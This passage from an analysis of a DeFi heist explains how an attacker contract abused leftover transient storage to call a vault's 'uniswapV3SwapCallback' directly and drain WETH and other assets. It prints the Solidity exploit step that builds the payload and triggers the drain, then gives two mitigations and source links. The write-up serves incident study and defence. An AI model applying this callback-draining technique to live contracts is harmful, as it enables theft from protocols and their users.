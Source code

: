 This setup also allowed the `ExploitCoordinator` contract to repeat the callback using the same technique, enabling further draining rounds if desired.

The attacker prepared new `VaultParameters` structures, swapping out the debt token for other valuable assets like WBTC and WETH. With each new asset, they crafted a matching data payload and called `uniswapV3SwapCallback` directly again.

```solidity
IVault.VaultParameters memory vaultParamsWeth = IVault.VaultParameters({
    debtToken: address(weth),
    collateralToken: address(this),
    leverageTier: 0
});

data = abi.encode(msg.sender, address(this), vaultParamsWeth, vaultState, reserves, false, true);

uint256 wethBalanceVictim = weth.balanceOf(address(victim));
victim.uniswapV3SwapCallback(
    0,
    int256(wethBalanceVictim),
    data
);
```

## Possible mitigations

1. Use separate transient storage slots for different values. Don’t store both the pool address and the minted amount in the same slot.
2. Clear transient storage manually after performing critical checks, to avoid unintended reuse later in the transaction.

## Sources and references

- [TenArmorAlert Twitter Thread](https://x.com/TenArmorAlert/status/1906268185046745262)
- [DecurityHQ Twitter Thread](https://x.com/DecurityHQ/status/1906270316935942350)
- [Slowmist Medium Post](https://slowmist.medium.com/fatal-residue-an-on-chain-heist-triggered-by-transient-storage-10909e4a255a)